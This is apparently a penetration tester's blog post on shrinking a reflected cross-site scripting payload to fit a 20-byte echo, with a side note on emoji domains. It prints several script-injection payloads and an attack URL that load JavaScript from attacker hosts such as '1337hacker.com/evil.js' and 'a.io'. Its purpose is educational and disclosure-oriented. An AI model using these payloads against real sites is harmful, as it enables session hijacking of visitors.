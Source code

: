 ```yaml
---
title: "Minifying XSS"
description: How I bypassed Cross-Site Scripting sanitisation in fewer than 20 characters.
slug: minifying-xss
date: 2018-03-18T15:45:00+10:30
draft: false
categories:
- All
- Application Security
tags:
- Cross-Site Scripting
- Penetration Testing
comments: true
ShowToc: true

cover:
  image: "hero.webp"
  alt: "A graphic of a HTML script tag fading into the background."
  relative: true
---
```



Cross-Site Scripting is still one of the most prevalent web application vulnerabilities, and has featured in each revision of the [OWASP Top 10](https://owasp.org/www-project-top-ten/) since the list was first published in 2010. Peaking at #2 in 2010, XSS was knocked off the podium for the first time in 2017, coming in at #7 on the list. This demotion may be due to the rise in popularity in Single Page Application (SPA) front-end frameworks such as React, Angular and Vue, which often include built-in sanitation to prevent these attacks.

However, where there is a will, there's a way.

While these frameworks do the heavy lifting to avoid these types of vulnerabilities, developers can ([and do](https://medium.com/node-security/the-most-common-xss-vulnerability-in-react-js-applications-2bdffbcc1fa0)) bypass the framework and manipulate the DOM directly, which can introduce XSS vulnerabilities. Sometimes the frameworks [get it wrong too](http://blog.portswigger.net/2017/09/abusing-javascript-frameworks-to-bypass.html), and people find ways to circumvent these protections. Not to mention that many applications on the web are using old frameworks or are hand-rolled and are riddled with dangerous DOM manipulation, which gets pentesters like me (and probably you) excited.

As we will see, websites can remain vulnerable to XSS attacks, even if the attack is detected. You just have to get a little crafty.

## An Ironic XSS Vulnerability

I recently came across a XSS vulnerability that got me thinking. It seemed like a run-of-the-mill [reflected XSS](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting) vulnerability; a URL parameter was injected directly into the HTML in the page which could let a baddy make a link which they could send in a phishing email and do nasty things to the victim. Something like this:

```html
https://www.mysecuresite.com/paymentDetails.html?userid=<script>someMaliciousCode()</script>
```

The site was smart enough to recognise the attack, and rather helpfully displayed a small snippet of the code in an error page to the user. The first 20 bytes of the vulnerable URL parameter were loaded into the page, and the rest were truncated. The developers of the site must have realised that 20 bytes is far too few for any useful JavaScript, thus preventing an XSS attack. Surely…

## Wait… Bytes or Characters?

Before we go on, there's something I need to clarify which will become important later on. You may have noticed that most websites use simple characters in their URLs. Domain names are mostly letters from the Latin alphabet (such as [www.medium.com](https://www.medium.com/)), and there may be some numbers and other characters like slashes and ampersands. These characters are all from the [ASCII character set](https://www.asciitable.com/), which consists of 256 characters used commonly in English speaking countries. Originally, this is all that was supported. Somebody said "thou shall only use ASCII characters in domain names", and so we did that for a bit.

But the World Wide Web is just that, its for people of all nationalities and languages. Sure, we can fit all our Latin uppercase and lowercase letters in the ASCII character set, with a few spots left over for numbers and punctuation, but what about Hebrew? What about Arabic, or Chinese? Or variations of letters which give us piñatas and Über?

Technically, this causes a problem. You see, ASCII includes 256 characters because they can be nicely represented using a single byte, or 8 bits of 1s and 0s. But if we want to include all of these other letters and symbols, we're going to need a bigger character set, which means more bytes-per-character.

A [very](http://www.developerknowhow.com/1091/the-history-of-character-encoding), [very](https://danielmiessler.com/study/encoding/) long story short, this is where Unicode comes to the rescue. Through various iterations of the [Internationalised Domain Names](http://unicode.org/faq/idn.html) specification, we can now use a subset of the Unicode character set in our domain names! This monster of a character set includes 139 different scripts, plus a bunch of symbol sets which includes, wait for it. Emoji.

Long story short, we can use emoji and other symbols in our domain names, but we have to be wary that one character does not always equal one byte, which is important when you only have 20 bytes to play with.

## Let's Begin
So we have ourselves a challenge: can we inject malicious JavaScript in just 20 bytes? The irony of an XSS vulnerability in a page that tells the user they have been saved from an XSS attack is too much of a carrot not to chase.

### Baseline
*Length:* Unlimited

```html
<script>someMaliciousCode()</script>
```

In it's most simplest form, malicious JavaScript can be inserted into a page surrounded by <script> tags. This approach is fine where you don't have any restrictions on the size of the payload, but in our case, it's not going to cut it. A [simple keylogger](https://github.com/JohnHoder/Javascript-Keylogger/blob/master/keylogger.js) can weigh in at over 300 bytes, which is waaay over our 20 byte target. In fact, if we count the number of characters in the script tags alone, we're already at 17 bytes, giving us just three left to play with. I don't know what your JS skills are like, but I can't do a lot with three characters.

### Milestone 1: Loading a script
**Length:** 50 characters

```html
<script src='https://www.1337hacker.com/evil.js'>
```

This is a more common approach for exploiting XSS in the wild. Let's put our malicious JavaScript in a file and host it on our web server. We can then make a payload which simply loads our script and has it executed by the browser. This is nice because it lets us load effectively any JavaScript in just 50 characters. We can even build up a little library of JS payloads on our web server and reuse then in different attacks. However, in this case, we're still over our limit.

### Milestone 2: Shortening our domain
**Length:** 27 characters

```html
<script src='https://a.io'>
```

Shortening our domain name goes a long way to bringing us closer to our target. The shortest [Top-Level Domains](https://en.wikipedia.org/wiki/List_of_Internet_top-level_domains) (TLDs), such as .io (Indian Ocean) or .uk (United Kingdom) are three characters long when you include the prefixed period. All we need to do is register a single character domain and we have the shortest possible Fully Qualified Domain Name (FQDN)!

It turns out a bunch of other people had the same idea, and it's pretty hard to get you hands on such a short domain name. More on this later 😉 But for now, let's continue building our Proof-of-Concept.

We've also removed the name of the file containing our naughty little script. We can do this by configuring our web server to host our script at the root of the web server, similar to how [www.reddit.com](http://www.reddit.com/) gives you the front page of the internet.

### Milestone 3: Inheriting the Protocol
**Length:** 21 characters

```html
<script src='//a.io'>
```

So. Close. It turns out, if we remove the 'https:' from the beginning of the URL, the browser will default to using the [same protocol](https://stackoverflow.com/questions/550038/is-it-valid-to-replace-http-with-in-a-script-src-http) that was used to load the parent page. For example, if we send out a link like this:

```html
http://www.mysecuresite.com/paymentDetails.html?userid=<script src='//a.io'>
```

The script will be loaded over HTTP since www.mysecuresite.com is being accessed over HTTP.

Now, if I'm being honest, I thought I was done here. Just one character shy of the target, and I thought I had reached the limit. A little disheartened, I contacted some friends and presented them with the challenge. Was there something I was missing that could get us below our 20 byte payload?

### Milestone 4: Removing quotation marks
**Length:** 19 characters

```html
<script src=//a.io>
```

As it turns out, there was! The quotation marks surrounding the URL are superfluous; the script loads just fine without them! And with that, we had come up with a Proof-of-Concept payload which would load arbitrary JavaScript into the user's browser and let us hijack their session. Pretty cool, huh!

### Hacking with Emoji

The PoC payload was enough to demonstrate that somebody with a short domain name could exploit the XSS vulnerability, which was enough to convince the developers to fix it. But where's the fun in that?

Remember that spiel about Internationalised Domain Names supporting Emoji? Well at this point, I jumped onto [https://i❤.ws/](https://xn--i-7iq.ws/marketplace/1?filter=1char) to see what the going rate was for a single emoji domain, and boy was I in for a surprise. A domain like [🤣.ws](https://xn--i-7iq.ws/aftermarket/xn--cq9h.ws) could set you back USD$50k! I looked in my wallet and remembered I'm not made of cash, so I settled for something a little less lucrative.

But, I can now say I'm the proud owner of ⚿.ws. The question remains, can I use this to exploit our XSS vulnerability? Sadly, no. The ⚿ character (squared key, for anybody whose browser doesn't support the emoji) is three bytes in size, which brings our payload to 21 bytes.

So close, yet so far…

---

So there it is, the shortest XSS payload I could come up with (with a little help) was 19 bytes with the right domain, or 21 bytes with my emoji domain. If you know of any other tricks to reduce the size, let me us know in the comments below!

---

**Thanks for reading!**  
If you enjoyed this post, follow on [Twitter](https://www.twitter.com/@JakobTheDev) or [Mastodon](https://infosec.exchange/@JakobTheDev) for more content. If you have any feedback or suggestions, leave it in the comments below and I'll do my best to get back to you.